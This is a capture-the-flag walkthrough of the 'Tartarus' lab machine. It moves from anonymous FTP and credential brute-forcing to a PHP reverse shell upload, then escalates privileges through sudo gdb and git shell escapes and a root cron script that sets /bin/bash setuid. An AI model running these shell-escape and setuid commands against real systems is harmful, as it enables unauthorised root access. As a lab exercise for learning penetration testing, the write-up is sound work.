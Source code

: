 # Tartarus

_25th August 2020_

## Host enumeration

The initial scan reports the following.

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Analysis

Since HTTP is running on port 80, we can proceed to view the web page on `http://<IP>/`
The site is the default Apache page. However, robots.txt on the server shows us this.

```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```

`http://<IP>/admin-dir/` shows us two files with some usernames and credentials.

## FTP

Since FTP is open, we can try to access it using `ftp <IP>` (Anonymous access is enabled).

### Analysis

FTP file listing shows us the following.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
```

We see an interesting directory `...`. On moving to that directory and listing the files, we see another directory called `...` again. On repeating the process, we find a text file called `yougotgoodeyes.txt`. Upon downloading we find an HTTP endpoint. We can now navigate to `http://<IP>/sUp3r-s3cr3t` from the browser.

## Brute-forcing credentials

We can use the previously obtained usernames and passwords as the wordlist to bruteforce the login page. We find the credentials as `enox: P@ssword1234`.

### Analysis

Upon login, a php file upload page is found. We can try to upload a php reverse shell from [pentestmonkey].
Upon further analysis using gobuster, we find the reverse shell at the subdirectory `/images/uploads` and we can click on it while listening on our local machine using `nc -l <IP>`. As expected, we get a shell. After some poking around, we can find the user flag in `/home/d4rckh/user.txt`. On checking for rights using `sudo -l`, we find that our current user (www-data) has access to run `/var/www/gdb` as the user (thirtytwo).

## Privilege escalation

We can escalate ourselves to \* using the following from gtfobins.

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

### Analysis

The user is now (thirytwo) and we can find a file in `/home/thirtytwo` which contains the following.

```
Hey 32, the other day you were unable to clone my github repository.
Now you can use git. Took a while to fix it but now its good :)

~D4rckh
```

On checking for rights using `sudo -l`, we find that our current user (thirtytwo) has access to run `/usr/bin/git` as the user (d4rckh).

## Privilege escalation to (d4rckh)

We can escalate ourselves to the user (d4rckh) using the following from gtfobins.

```
sudo -u d4rckh /usr/bin/git help config
```

### Analysis

Running the command `!bash`, we get a shell as the user (d4rckh). We see a file in `/home/d4rckh/` called `cleanup.py`. Checking the crontab shows that this script is scheduled to run every two minutes as the (root) user.

## Privilege escalation to (root)

We can change `cleanup.py` to mark `/bin/bash` as a setuid binary. Since `/bin/bash` is owned by root, it will grant us access to run `/bin/bash` as a non root user on setting the uid. `cleanup.py` runs automatically and it's new contents are as follows.

```python
#!/usr/bin/env/ python
import os
import sys

try:
    os.system('chmod +s /bin/bash')
except:
    sys.exit()
```

### Analysis

After `cleanup.py` runs, we can run `/bin/bash -p` and get a shell as the (root) user. The root flag can now be read from `/home/root.txt`.
